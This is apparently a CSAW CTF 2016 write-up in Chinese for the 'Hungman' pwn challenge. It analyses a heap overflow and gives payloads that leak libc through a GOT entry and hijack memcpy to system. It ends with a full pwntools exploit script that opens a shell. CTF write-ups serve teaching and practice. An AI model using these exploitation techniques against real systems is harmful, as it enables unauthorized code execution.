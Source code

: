 title: '[CSAW CTF 2016] Hungman 300'
author: Naetw
tags:
  - CSAW CTF 2016
  - pwn
  - heap
categories:
  - write-ups
date: 2016-09-19 23:33:00
---

## Description

> 第一次貢獻大分數給 BambooFox，雖然這次比賽比較簡單，但還是很感動QQ

## Analyzing

64 bit ELF, NX, Partial RELRO, Stack Canary, no PIE

程式一開始會要求輸入名字，而他會 `malloc` 名字長度的記憶體來存放使用者輸入的名字，接著會 `malloc` 一塊 0x80 大小的 heap，以下稱之為 `key_heap`，第一格**高位** 4 bytes 會存放 length of name，第二格則儲存著 name's heap 的位址。

name's heap & key_heap 的 memory layout 如下：

```python
	low     ->     high
	+ ------------- +  name's heap chunk head
	| previous size |
	| ------------- |
	|      size     |
	| ------------- |
	|      name     |  32 bytes
	|               |		|
	|               |		|
	|               |		v
	+ ------------- +  key_heap chunk head
	| previous size |
	| ------------- |
	|      size     |
	| ------------- |
	|       |length |
	| ------------- |
	|  name's heap  |
	+ ------------- +
```
輸入完名字之後，回到了 `main`，接著便進入玩遊戲的 function 以下稱為 game。

遊戲是猜小寫英文字母，然後如果分數超過 64 分可以重新改名字，而改寫名字時可以在 heap 上進行 overflow。

因為是猜小寫字母，而照他的規則一開始輸入名字的長度
決定可以猜的次數，因此一開始輸入名字時就給他來個 `'A'*26`，這樣基本上從 a 猜到 z 猜到一半就能夠破分數紀錄而改寫名字。

改寫名字的 code 重點如下：

```c
s = malloc(248);
memset(s, 0, 248);
len_of_new_name = read(0, s, 248);
*(_DWORD*)(a1 + 4) = len_of_new_name; // 把剛剛 key_heap 存 name size 的地方改成 new name 的 size
memcpy(*(void**)(a1 + 8), s, len_of_new_name);
free(s);
```
	
由上面的 code 可以發現，他最長可以讀 248 bytes，而我們一開始輸入的名字長度只有 26，因此 new name 可以好好的構造來 **leak information**。

因為離開 game 後會把新名字 dump 出來，而程式找 `name_heap` 的方式是靠 `key_heap` 的第二格來找，因此在剛剛的 overflow 時我們將原本儲存著 name's heap address 的那格改成 GOT entry，這樣一來，在 dump new name 的時候便可以 **leak libc information** 接著利用主辦方給的 libc 就可以找到 `libc base`。

這邊 overflow 的 payload 如下：

```python
payload = 'A'*32 # padding
payload += p64(0) # previous size
payload += p64(0x91) # size
payload += p32(0x20) # score
payload += p32(0x1b) # len_of_new_name
payload += p64(libc_start_main) # __libc_start_main GOT entry
```

size 那邊沒必要寫壞就寫回原來的值，下一格的**低位** 4 bytes 會是 這次刷新的分數(下面提供相關 code)，為了加速下次玩遊戲時間，把分數改低一點，然後因為猜個 26 次就很夠了所以**高位** 4 bytes 寫回原來的長度就好了，接下來再玩一次。

```c
score = *(_DWARD*)a1;
```

第二次改名時就不會改到 name's heap，會改到剛剛 overwrite 的 `__libc_start_main` GOT entry 上。

GOT table 的 libc function order:

```
__libc_start_main@got.plt
__gmon_start__@got.plt
memcpy@got.plt
malloc@got.plt
setvbuf@got.plt
```

因為在改名字時有一段 code 是 `memcpy(*(void**)(a1+8), s, len_of_new_name)`，所以把 `memcpy` 的 GOT hijack 掉改成 `system`，要注意的點是改名字時會用到 `malloc` 而 `read` 會在結尾補 `\x00` 所以乾脆直接連 `malloc` 也一起蓋正確的 `libc address` 確保他不會壞，而 `malloc` 的下一個 function 後面用不到就不用管他。這邊 payload 開頭我就先送 `'sh\x00'` 上去這樣 `memcpy` 的一開始就可以直接 `system('sh')`

第二次的 payload:

```python
payload = "sh\x00".ljust(8)
payload += 'A'*8
payload += p64(system)
payload += p64(malloc)
```

之後再玩一次遊戲，然後改名字的時候隨便輸入就可以拿到 shell

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

#context.log_level = 'DEBUG'
#r = process('./hungman-patch')
r = remote('172.17.0.2', 4000)
#r = remote('pwn.chal.csaw.io', 8003)

#libc = ELF('bc.so.6')
#libc =ELF('/home/naetw/binaryservice/src/glibc-2.19/32/lib/libc.so.6')
libc =ELF('/home/naetw/binaryservice/src/glibc-2.19/64/lib/libc.so.6')

libc_start_got = 0x602068

r.recv()
r.sendline('A'*26)

def game(payload):
    for i in xrange(26):
        r.sendline(chr(97+i))
        x = r.recvline()
        if x[0:4] == "High":
            r.recv(timeout=3)
            r.sendline('y')
            sleep(1)
            r.sendline(payload)
            return
        if x[0:4] == 'Defa':
            r.recvuntil('Continue? ')
            r.sendline('y')
            i = 0
            r.recvline()

# leak libc function address
payload = 'A'*32
payload += p64(0) + p64(0x91) + p32(0x20) + p32(0x1b) + p64(libc_start_got)
r.recvuntil('__________________________\n')
game(payload)
r.recvuntil('player: ')
x = r.recvuntil(' score:')
r.recv()
base = u64(x[0:6] + '\x00' * 2) - libc.symbols['__libc_start_main']
system = base + libc.symbols['system']
info('libc base : {}'.format(hex(base)))
info('system : {}'.format(hex(system)))

# hijack memcpy() and open shell
r.sendline('y')
r.recvuntil('__________________________\n')
payload = 'sh\x00'.ljust(8) + 'A'*8 + p64(system) + p64(base + libc.symbols['malloc']) 
game(payload)
r.recvuntil('Continue? ')
r.sendline('y')
r.recvline()
payload = 'whatever'
game(payload)

r.interactive()
```
